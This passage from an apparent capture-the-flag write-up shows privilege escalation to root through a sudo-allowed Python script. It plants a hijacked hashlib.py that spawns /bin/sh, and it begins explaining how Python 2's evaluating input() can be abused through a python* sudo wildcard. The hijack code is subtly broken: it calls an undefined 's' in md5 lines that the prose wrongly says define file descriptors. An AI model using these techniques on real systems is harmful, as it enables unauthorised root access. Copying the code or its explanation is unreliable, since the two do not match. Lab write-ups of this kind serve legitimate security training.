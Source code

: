 ## Method-1 Library Hijacking
Since we've write access to the directory where the script is running, I can Hijack the two libraries running on it. Namely: `os` and `hashlib`.

For execution of `os`,  I need to pass that whole md5 comparisons, for something easy I can hijack `hashlib` by making hashlib.py at the same directory as test.py with the contents:
```python
import os
os.system("/bin/sh")
md5(s.fileno(),0)
md5(s.fileno(),1)
md5(s.fileno(),2)
```

This script just imports OS, runs `/bin/sh` with the 3 file-descriptors. Also the file-descriptors are defined in function `md5` as it's being used by test.py as `hashlib.md5()`.

```bash
richard@stratosphere:~$ sudo /usr/bin/python3 /home/richard/test.py
# whoami
root
```

## Method-2 Vulnerable input() in python2
If I look closely on the sudo permissions, there's a wildcard for the python version I can use.
```bash
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

Script intends to be called with python3, both in the shebang line and in the default mapping:
```python
#!/usr/bin/python3
```
and
```bash
richard@stratosphere:~$ ls -l /usr/bin/python
lrwxrwxrwx 1 root root      16 Feb 11 19:46 /usr/bin/python -> /usr/bin/python3
```

Let's see what's different and vulnerable in python2 and not in python3.
In python2, input is equivalent to `eval(raw_input())`, so whatever a user passes is evaluated first.

Here's a quick example:
```python
a=input("Evaluate: ")
print(a)
```

Running with both python2 and python3:
```bash
$ python2 abc.py
Evaluate: 1+1
2

$ python3 abc.py
Evaluate: 1+1
1+1
```
